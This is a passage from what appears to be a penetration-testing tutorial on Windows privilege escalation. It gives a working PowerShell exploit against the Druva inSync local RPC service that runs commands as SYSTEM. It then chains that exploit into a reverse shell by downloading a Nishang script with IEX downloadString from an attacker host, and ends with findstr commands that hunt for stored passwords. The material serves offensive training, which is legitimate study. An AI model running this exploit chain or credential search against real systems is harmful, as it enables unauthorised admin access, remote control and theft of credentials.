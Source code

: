 One last check about the program:
```console
PS C:\zeropio> get-service | ? {$_.DisplayName -like 'Druva*'}
```

With this information in hand, let's try out the exploit PoC about Druva inSync:
```powershell
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```

For our purposes, we want to modify the **$cmd** variable to our desired command. Download this [script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Open the file, and append the following at the bottom of the script file:
```
Invoke-PowerShellTcp -Reverse -IPAddress <OUR IP> -Port 9443
```

Modify the **$cmd** variable in the Druva inSync exploit PoC script to download our PowerShell reverse shell into memory:
```powershell
$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://<OUR IP>/shell.ps1')"
```

Start a http server, open a netcat and execute the payload.

---

# Credential Theft

## Credential Hunting 

Credentials can unlock many doors for us during our assessments.  We can use the `findstr` utility to search for this sensitive information:
```console
PS C:\zeropio> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
```
